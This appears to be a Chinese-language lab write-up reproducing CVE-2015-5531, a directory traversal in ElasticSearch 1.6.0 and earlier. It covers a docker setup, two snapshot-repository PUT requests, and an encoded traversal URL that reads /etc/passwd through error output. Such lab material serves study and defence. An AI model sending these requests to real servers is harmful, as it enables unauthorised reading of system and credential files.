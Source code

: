 # ElasticSearch 快照和恢复功能目录穿越漏洞（CVE-2015-5531）

ElasticSearch是一个分布式的RESTful搜索和分析引擎。

在ElasticSearch 1.6.0及更早版本中，存在一个目录穿越漏洞，攻击者可以利用该漏洞读取系统上的任意文件。

根据目标的具体版本，该漏洞的利用条件也存在不同：在ElasticSearch 1.5.1及更早版本中，无需任何配置即可触发该漏洞；在之后的版本中，必须在elasticsearch.yml配置文件中设置`path.repo`参数。此配置指定一个必须可写的目录，作为备份仓库的根位置。如果未配置此参数，快照和恢复功能将默认禁用。

参考链接：

- <https://www.exploit-db.com/exploits/38383/>
- <http://www.freebuf.com/vuls/99942.html>

## 环境搭建

执行以下命令来启动一个1.6.0版本的ElasticSearch服务器：

```
docker compose up -d
```

环境启动后，你可以通过`http://your-ip:9200`访问ElasticSearch服务器。

## 漏洞复现

### 1. 创建仓库

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```

![](1.png)

### 2. 创建快照

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

![](2.png)

### 3. 利用目录穿越读取文件

发送请求使用目录穿越来读取任意文件。例如，要读取`/etc/passwd`文件：

```
http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

![](3.png)

文件内容将包含在错误信息中（经过编码）。解码后即可获得文件内容：

![](4.png)
